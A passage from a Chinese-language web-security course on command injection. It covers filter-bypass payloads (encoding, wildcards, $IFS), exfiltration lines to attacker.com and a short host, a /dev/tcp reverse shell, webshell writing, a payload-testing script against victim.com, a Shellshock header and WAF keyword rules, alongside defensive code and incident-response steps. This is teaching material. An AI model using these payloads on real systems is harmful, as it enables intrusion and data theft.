4. 启动 nc，反弹 shell 接收
5. 用 `c''at` / `$IFS` 等技巧绕过自设过滤

---

# 🗓️ 第 4 课 · 绕过技巧 + 防御 + 真实案例
## 4.1 绕过技巧总览


---

## 4.2 字符过滤绕过
### 过滤分号 `;`
```plain
127.0.0.1 | id           # 管道
127.0.0.1 & id           # 后台
127.0.0.1 && id
127.0.0.1 %0a id         # 换行符（\n）
127.0.0.1 %0d id         # 回车符（\r）
127.0.0.1 `id`           # 反引号
```

### 过滤空格
```plain
127.0.0.1$IFS;id         # $IFS
127.0.0.1${IFS};id
127.0.0.1<               # 输入重定向
127.0.0.1;{id;}          # 大括号
127.0.0.1;id$IFS
127.0.0.1;IFS=,;id       # 改 IFS
```

### 过滤斜杠 `/`
```plain
# 用 ${PATH:0:1} 取 /
127.0.0.1;cat ${PATH:0:1}etc${PATH:0:1}passwd

# 用 echo + base64
echo L2V0Yy9wYXNzd2Q= | base64 -d
```

### 过滤 cat
```plain
c''at /etc/passwd
c""at /etc/passwd
ca\t /etc/passwd          # 反斜杠
/bin/cat /etc/passwd
more /etc/passwd          # 替代命令
less /etc/passwd
head /etc/passwd
tail /etc/passwd
tac /etc/passwd
nl /etc/passwd
sort /etc/passwd
rev /etc/passwd | rev
awk '{print}' /etc/passwd
sed '' /etc/passwd
grep '' /etc/passwd
echo "$(< /etc/passwd)"   # bash 内置
```

---

## 4.3 编码绕过
### Base64
```bash
# 原命令：cat /etc/passwd
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d          # 输出 cat /etc/passwd
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash   # 执行
```

### Hex
```bash
echo "636174202f6574632f706173737764" | xxd -r -p | bash
```

### 8 进制
```bash
$(printf "\143\141\164\40\057\145\164\143\57\160\141\163\163\167\144")
```

### 16 进制
```bash
$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```

---

## 4.4 通配符绕过
```bash
# /bin/cat /etc/passwd
/???/??t /???/??????

# ls
/???/?s

# 任意命令
/???/??? /???/??????

# 双通配
/???/* /etc/*sswd
```

---

## 4.5 利用环境变量拼接
```bash
# $PATH 通常是 /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:...
echo $PATH | cut -c 1              # /
${PATH:0:1}                        # /

# $SHELL 通常是 /bin/bash
${SHELL:0:4}                       # /bin

# $HOME 通常是 /root
${HOME:0:1}                        # /
```

### 实战 Payload
```bash
# cat /etc/passwd
${PATH:0:1}???${PATH:0:1}??t ${PATH:0:1}???${PATH:0:1}??????
```

---

## 4.6 长度限制绕过
如果限制输入 ≤ 5 字符，用文件拼接：

```bash
# 短命令写入文件
echo 'id' > a
echo '>/tmp/x' > b
# 拼接执行
sh a
```

或用 `wget` 下载大 Payload：

```bash
wget a.b/$(whoami)     # 7 字符 + URL
```

---

## 4.7 HTTP 参数污染（HPP）
```plain
?ip=127.0.0.1;id&ip=
```

部分后端只取第一个 / 最后一个 / 拼接。

---

## 4.8 防御核心原则


> 🎯 **核心防御**：  
**绝对不要**用 `shell=True` + 字符串拼接。  
用列表传参 + `shell=False`。
>

---

## 4.9 PHP 防御
### 方法 1：escapeshellarg / escapeshellcmd
```php
$ip = $_GET['ip'];

// ✅ escapeshellarg：把参数转义成单引号字符串
$safe_ip = escapeshellarg($ip);
system("ping -c 4 " . $safe_ip);
// 127.0.0.1;id → '127.0.0.1'\''id'（被引号包裹，安全）

// ✅ escapeshellcmd：转义 shell 元字符
$cmd = escapeshellcmd("ping -c 4 " . $ip);
system($cmd);
// 注意：escapeshellcmd 不能 100% 防注入，只用于完整命令
```

### escapeshellarg vs escapeshellcmd
| 函数 | 用途 | 行为 |
| --- | --- | --- |
| `escapeshellarg` | **转义参数** | 整体加单引号 |
| `escapeshellcmd` | 转义整个命令 | 在元字符前加 `\` |


**重要**：参数用 `escapeshellarg`，整个命令用 `escapeshellcmd`。

### 方法 2：白名单
```php
$ip = $_GET['ip'];
if (!preg_match('/^\d{1,3}(\.\d{1,3}){3}$/', $ip)) {
    die("invalid ip");
}
system("ping -c 4 " . escapeshellarg($ip));
```

### PHP 7.4+ 禁用函数
```properties
; php.ini
disable_functions = exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

---

## 4.10 Java 防御
### ProcessBuilder 列表传参
```java
String ip = request.getParameter("ip");

// ❌ 危险：拼接 + sh -c
Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","ping -c 4 " + ip});

// ✅ 安全：列表传参，不调 shell
ProcessBuilder pb = new ProcessBuilder("ping", "-c", "4", ip);
Process p = pb.start();

// ✅ 进一步：白名单
if (!ip.matches("^\\d{1,3}(\\.\\d{1,3}){3}$")) {
    throw new IllegalArgumentException("invalid ip");
}
```

---

## 4.11 Python 防御
```python
import subprocess, shlex, re

ip = request.args.get("ip")

# ❌ 危险
subprocess.run(f"ping -c 4 {ip}", shell=True)
os.system(f"ping -c 4 {ip}")

# ✅ 安全：列表 + shell=False
subprocess.run(["ping", "-c", "4", ip])

# ✅ 进一步：白名单
if not re.match(r'^\d{1,3}(\.\d{1,3}){3}$', ip):
    abort(400, "invalid ip")
subprocess.run(["ping", "-c", "4", ip])
```

### shlex.quote（最后手段）
如果必须用 `shell=True`：

```python
safe_ip = shlex.quote(ip)   # 给字符串加引号
subprocess.run(f"ping -c 4 {safe_ip}", shell=True)
```

---

## 4.12 Node.js 防御
```javascript
const { spawn } = require('child_process');

// ❌ 危险
exec(`ping -c 4 ${ip}`, (err, stdout) => {});

// ✅ 安全：spawn 列表传参
const p = spawn('ping', ['-c', '4', ip]);
p.stdout.on('data', d => res.write(d));

// ✅ 白名单
if (!/^\d{1,3}(\.\d{1,3}){3}$/.test(ip)) {
    return res.status(400).send('invalid ip');
}
```

---

## 4.13 各语言防御一览
| 语言 | 推荐 |
| --- | --- |
| PHP | `escapeshellarg` + 白名单正则 |
| Java | `ProcessBuilder` + 列表传参 |
| Python | `subprocess.run` + `shell=False` + 列表 |
| Node.js | `spawn` + 列表传参 |
| Go | `exec.Command` + 列表传参 |


---

## 4.14 网络层 / 系统层防御
### 1. 最小权限
```plain
- Web 进程以低权限用户（www-data / nobody）运行
- 不用 root 跑 Web
- sudo 白名单（如必须 sudo，明确允许命令）
```

### 2. 沙箱 / 容器
```plain
- Docker 容器隔离
- SELinux / AppArmor 强制访问控制
- chroot jail
- seccomp 限制系统调用
```

### 3. 出网限制
```plain
- 防火墙禁止 Web 服务器出网
- 即使被注入，反弹 shell 也连不出去
```

### 4. 命令白名单
```python
ALLOWED_COMMANDS = {"ping", "nslookup", "dig"}

def safe_run(cmd, args):
    if cmd not in ALLOWED_COMMANDS:
        raise ValueError("command not allowed")
    subprocess.run([cmd] + args)
```

### 5. WAF 规则
```plain
# ModSecurity
SecRule ARGS "@rx [;|&`$()><]" \
    "id:1001,phase:2,deny,msg:'Command injection detected'"

# 关键字
SecRule ARGS "@pm cat ls id whoami uname ping nc bash sh" \
    "id:1002,phase:2,deny,msg:'Suspicious command keyword'"
```

---

## 4.15 真实案例赏析
### 案例 1：Netgear 路由器命令注入 (2016)
+ CVE-2016-10227
+ 漏洞点：Web 管理界面 `ping.cgi`
+ 利用：直接执行 `;reboot` 重启路由器
+ 影响：数百万 Netgear 路由器

### 案例 2：D-Link 路由器命令注入 (2013)
+ 多个型号 `command.php`
+ 利用：未授权直接注入命令
+ 危害：完全控制路由器

### 案例 3：SHELLSHOCK (CVE-2014-6271)
+ Bash 解析环境变量中的函数时漏洞
+ 利用：HTTP 请求头中的 User-Agent 被注入到环境变量
+ 命令执行

```http
User-Agent: () { :; }; /bin/bash -c "cat /etc/passwd"
```

+ 影响：全球百万服务器

### 案例 4：Equifax 数据泄露 (2017)
+ 利用 Apache Struts 漏洞（CVE-2017-5638）
+ 攻击者通过 OGNL 表达式注入 → RCE
+ 1.43 亿用户信用数据泄露
+ 损失：10 亿美元+

### 案例 5：GitLab RCE (2021)
+ CVE-2021-22205
+ ExifTool 解析上传图片元数据时执行命令
+ 影响：所有未打补丁的 GitLab 实例

### 案例 6：TP-Link 摄像头命令注入
+ 摄像头 Web 接口未过滤参数
+ 攻击者直接 root 权限执行命令
+ 影响大量 IoT 设备

### 案例 7：Cisco IP 电话命令注入
+ 电话管理接口未授权
+ 攻击者直接 reboot / 改配置 / 监听

---

## 4.16 命令注入漏洞挖掘流程


### 必测 Payload 清单
```plain
;id
|id
&id
&&id
||id
`id`
$(id)
%0aid%0a
$IFS
{cat,/etc/passwd}
c''at /etc/passwd
/???/??t /???/??????
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash
```

---

## 4.17 命令注入检测自动化
### Burp Active Scan
Burp 自动检测命令注入：在参数后追加各种元字符 + 看响应。

### 工具：Commix
```bash
git clone https://github.com/commixproject/commix.git
cd commix
python3 commix.py --url="http://victim.com/ping?ip=INJECT_HERE" --batch
```

自动测试所有 Payload，支持：

+ 经典回显
+ 盲注（延时）
+ OOB（DNS / HTTP）
+ 文件写入

### 自定义检测脚本
```python
import requests, time

TARGET = "http://victim.com/ping"
PARAM = "ip"
PAYLOADS = [
    ";id", "|id", "&id", "&&id", "||id",
    "`id`", "$(id)", "%0aid",
]

for p in PAYLOADS:
    t0 = time.time()
    r = requests.get(TARGET, params={PARAM: f"127.0.0.1{p}"}, timeout=10)
    elapsed = time.time() - t0
    has_uid = "uid=" in r.text
    print(f"[{p:>15}] status={r.status_code} time={elapsed:.2f}s uid={has_uid}")
```

---

## 4.18 应急响应：发现命令注入后
### 日志特征
```plain
- 访问日志中 URL 包含 ; | & $() ` %60
- User-Agent / Referer 中含 shell 元字符（Shellshock）
- 突然有 ls / cat / whoami / curl / wget / nc 的进程
- 出现未知文件（webshell）
- 系统出现异常用户 / 异常 SSH key
```

### 处置
```plain
1. 立即隔离主机
2. 抓内存（gcore）
3. 备份磁盘
4. 分析进程树（pstree -apnh）
5. 看网络连接（netstat -antp）
6. 找 webshell / 反弹 shell 痕迹
7. 重装系统（清理不彻底）
```

---

## 4.19 第 4 课小结
| 知识点 | 一句话 |
| --- | --- |
| 字符过滤绕过 | 通配符 / 编码 / 引号 |
| 关键字过滤绕过 | `c''at` / base64 / `${PATH:0:1}` |
| 编码绕过 | base64 / hex / 8 进制 / 16 进制 |
| 通配符 | `/???/??t /???/??????` |
| PHP 防御 | `escapeshellarg` + 白名单 |
| Java 防御 | `ProcessBuilder` 列表传参 |
| Python 防御 | `subprocess.run([...])` shell=False |
| Node.js 防御 | `spawn` 列表传参 |
| 网络层防御 | 最小权限 + 出网限制 + 沙箱 |
| 工具 | Commix / Burp Active Scan |
| 真实案例 | Shellshock / Netgear / Equifax / GitLab |


---

# 📝 课程总回顾（必背 30 条）
### 基础
1. 命令注入 = 在 shell 命令中插入额外命令
2. 危害 = 直接 RCE（最高危）
3. 高发场景 = ping / nslookup / 文件操作 / 设备控制
4. PHP 函数 = system / exec / shell_exec / passthru
5. Java 函数 = Runtime.exec / ProcessBuilder

### 元字符
6. `;` 顺序执行（最常用）
7. `&&` 逻辑与
8. `||` 逻辑或
9. `|` 管道
10. `&` 后台执行
11. `` ` `` 反引号命令替换
12. `$()` 命令替换
13. `>` `>>` 输出重定向
14. `*` `?` 通配符

### 语言差异
15. PHP / Python(shell=True) / Node(exec) 默认调 shell
16. Java Runtime.exec 默认不调 shell
17. ProcessBuilder / subprocess 列表 / spawn 列表 = 安全
18. 用 sh -c 包装就全有风险

### 靶场
19. DVWA Low = `;id` 直接注入
20. DVWA Medium = 只过滤 `;` `&&`，用 `|` `&` 绕
21. DVWA High = `| ` 带空格过滤，`|id` 无空格绕
22. DVWA Impossible = 白名单只保留 `0-9a-zA-Z.:`

### 盲注入
23. 延时 = `; sleep 5`
24. DNSLog = `; ping \`whoami`.attacker.com`
25. 写 webshell = `; echo <?php ... > s.php`
26. 反弹 shell = `bash -i >& /dev/tcp/IP/PORT 0>&1`

### 绕过
27. 空格 = `$IFS` / `{cat,/etc/passwd}` / `<>`
28. 关键字 = `c''at` / base64
29. 通配符 = `/???/??t /???/??????`

### 防御
30. 列表传参 + `shell=False` = 根本防御

---

# 🎯 课后作业
### 基础题
1. 启动自建 Flask 靶场，用浏览器测试 8 种元字符
2. 完成 DVWA Command Injection 全部 4 级
3. 完成 pikachu / bwapp 命令注入关卡

### 进阶题
4. 启动盲注入靶场，用 sleep 确认漏洞
5. 用 DNSLog 把 `/etc/hostname` 外带出来
6. 启动 nc，完成反弹 shell 实战

### 实战题
7. **绕过实战**：自设过滤（黑名单 `;` `&` `|`），用编码 / 通配符绕过
8. **代码审计**：找一个开源项目，grep `Runtime.exec` / `subprocess shell=True`，找漏洞
9. **写防御**：在自建 PHP / Java / Python 三种语言靶场实现正确防御

---


